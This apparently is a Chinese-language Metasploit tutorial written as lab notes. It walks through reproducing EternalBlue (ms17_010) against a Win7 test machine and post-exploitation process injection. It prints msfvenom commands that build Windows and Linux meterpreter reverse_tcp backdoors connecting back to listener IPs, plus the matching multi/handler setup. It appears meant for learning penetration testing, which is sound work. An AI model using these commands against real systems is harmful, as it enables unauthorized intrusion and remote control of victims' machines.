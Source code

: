 # 1.基本Metasploit使用

## 使用方式

### 使用模块 - user [module name]

不知道模块具体名称可以使用`search`搜索

### 配置模块必选项 - set [option_name]

不知道具体选项可以使用`show option`

### 运行模块 - run

## 2.永恒之蓝复现

搜索ms17_010

![image-20241112221025457](Metasploit/image-20241112221025457.png)

要进行使用可以`use [module name]`或者use 前面的序号

使用`show options`查看需要配置的选项

![image-20241112221211481](Metasploit/image-20241112221211481.png)

配置完对应的选项之后run即可，关闭win7靶机的防火墙即可成功

![image-20241112221537960](Metasploit/image-20241112221537960.png)

这里的攻击载荷是`meterpreter`

也可以设置不同的攻击载荷

### 后渗透环节

可以使用help查看当前可以使用的命令

![](Metasploit/image-20241112222608904.png)

靶机使用的不是管理员用户，使用个人用户，但我们得到的权限是管理员用户，想要在个人用户下进行后渗透操作需要进行降权

查看当前的id，将进程注入到用户操作去

![image-20241112222856761](Metasploit/image-20241112222856761.png)

# 2.正篇

## 1.msfvenom生成木马后门

所有参数

```
┌──(root💀kali)-[~/桌面]
└─# msfvenom -h
MsfVenom - Metasploit 独立负载生成器。
也是 msfpayload 和 msfencode 的替代品。
用法：/usr/bin/msfvenom [options] <var=val>
示例：/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

选项：
-l, --list           <type>       列出 [type] 的所有模块。类型有：payloads、encoders、nops、platforms、archs、encrypt、formats、all
-p, --payload        <payload>    要使用的有效负载（--list 要列出的有效负载，--list-options 用于参数）。为自定义指定“-”或 STDIN
    --list-options                列出 --payload <value> 的标准、高级和规避选项
-f, --format         <format>     输出格式（使用 --list 格式列出）
-e, --encoder        <encoder>    要使用的编码器（使用 --list 编码器列出）
    --service-name   <value>      生成服务二进制文件时使用的服务名称
    --sec-name       <value>      生成大型 Windows 二进制文件时使用的新部分名称。默认值：随机 4 个字符的字母字符串
    --smallest                    使用所有可用的编码器生成尽可能小的有效载荷
    --encrypt        <value>      应用于 shellcode 的加密或编码类型（使用 --list encrypt 列出）
    --encrypt-key    <value>      用于 --encrypt 的密钥
    --encrypt-iv     <value>      --encrypt 的初始化向量
-a, --arch           <arch>       用于 --payload 和 --encoders 的架构（使用 --list archs 列出）
    --platform       <platform>   --payload 的平台（使用 --list 平台列出）
-o, --out            <path>       将有效负载保存到文件
-b, --bad-chars      <list>       避免使用的字符示例：'\x00\xff'
-n, --nopsled        <length>     将 [length] 大小的 nopsled 添加到有效负载上
    --pad-nops                    使用 -n <length> 指定的 nopsled 大小作为总负载大小，自动预先添加数量的 nopsled（nops 减去负载长度）
-s, --space          <length>     结果有效载荷的最大大小
    --encoder-space  <length>     编码负载的最大大小（默认为 -s 值）
-i, --iterations     <count>      设置有效载荷的编码次数
-c, --add-code       <path>       指定要包含的附加 win32 shellcode 文件
-x, --template       <path>       指定用作模板的自定义可执行文件
-k, --keep                        保留 --template 行为并将有效负载作为新线程注入
-v, --var-name       <value>      指定用于某些输出格式的自定义变量名称
-t, --timeout        <second>     从 STDIN 读取有效负载时等待的秒数（默认为 30，0 表示禁用）
-h, --help                        显示此消息 

```

windows可执行程序后门

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.204.149 lport=6688 -f exe -o liao.exe
```

Linux可执行后门

```
msfvenom -p linux/meterpreter/reverse_tcp lhost=192.168.137.129 lport=443 R>shell.php
```

> -p 设置攻击载荷
>
> windows/x64/meterpreter/reverse_tcp 系统/架构/作用/方式 方式一般选择反向TCP连接，让目标连接本机
>
> lhost lport设置监听本地机器的ip和端口
>
> -f format
>
> -o output

使用模块开启监听

```
use exploit/multi/handler
```

设置pyload

```
set paypload windows/x64/meterpreter/reverse_tcp
```

设置模块必选项 ip 端口

```
set lhost 192.168.137.147
set lport 6688
```

运行模块 

```
run
```

